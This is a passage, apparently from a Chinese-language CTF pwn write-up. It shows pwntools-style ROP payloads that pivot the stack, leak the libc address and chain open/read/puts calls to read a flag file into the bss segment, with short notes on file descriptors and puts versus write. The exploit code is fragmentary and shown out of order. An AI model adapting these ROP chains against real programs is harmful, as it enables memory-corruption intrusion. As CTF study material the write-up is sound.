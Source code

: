 ```bash
p.send(pl)

syscall = libc_base + libc.sym['syscall']
pl = p64(0)+p64(rdi)+p64(2)+p64(rsi_r15)+p64(0x601200)+p64(0)+p64(syscall)
pl += p64(rdi)+p64(3)+p64(rsi_r15)+p64(0x601200)+p64(0x100)+p64(read_addr)
pl += p64(rdi)+p64(0x601200)+p64(puts_addr)+p64(main) #8
#dbg()
p.send(pl)
```

‍

pl 1、2 正常起手，pl 3 来获取 libc 地址

```bash
pl = b'a'*0x100+p64(bss)+p64(read) #1
p.send(pl)

pl = b'a'*0x100+p64(bss+0x100)+p64(read) #2
p.send(pl)
```

‍

> read()
> 
> 文件描述符：0 标准输入，1 标准输出，2 标准报错，3、4、5 .. 第一、二、三 ...个文件
> 
> ‍
> 
> ORP 和 ORW：
> 
> puts 更方便，只需要一个参数，而 write 需要多次传参
> 
> 但 puts 遇到'x00'停止，有些 ex 的 flag 可能会故意带上'\\x00'

‍

将 flag 读入 bss 段

```bash
pl = p64(bss+0x130)+p64(rdi)+p64(0)+p64(rsi_r15)+p64(0x601200)+p64(0x40)+p64(read_addr)+p64(main)
dbg()
p.send(pl)
pause()
p.send('flag')
```

[![](assets/1701606597-38e4655bb25f45df0a325ead09d622b4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231116170350-0ee87556-845f-1.png)

[![](assets/1701606597-a028ede4e02adaa0c0227a95a22d1ce9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231116170354-115f8522-845f-1.png)
